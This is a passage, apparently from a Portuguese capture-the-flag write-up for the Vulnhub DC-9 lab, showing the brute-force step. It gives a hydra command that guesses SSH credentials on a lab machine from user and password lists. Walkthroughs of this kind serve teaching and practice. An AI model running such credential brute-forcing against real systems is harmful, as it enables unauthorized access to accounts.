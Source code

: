 ![](/assets/img/Vulnhub/DC-9/credenciais-2.png)


\newpage

### Bruteforce


* Agora vamos tentar um **bruteforce** com o **hydra** o **SSH** com as informacoes que temos 

```bash
sudo hydra -L usuarios.txt -P senhas.txt ssh://192.168.150.112 -T50
```

![](/assets/img/Vulnhub/DC-9/hydra-ssh.png)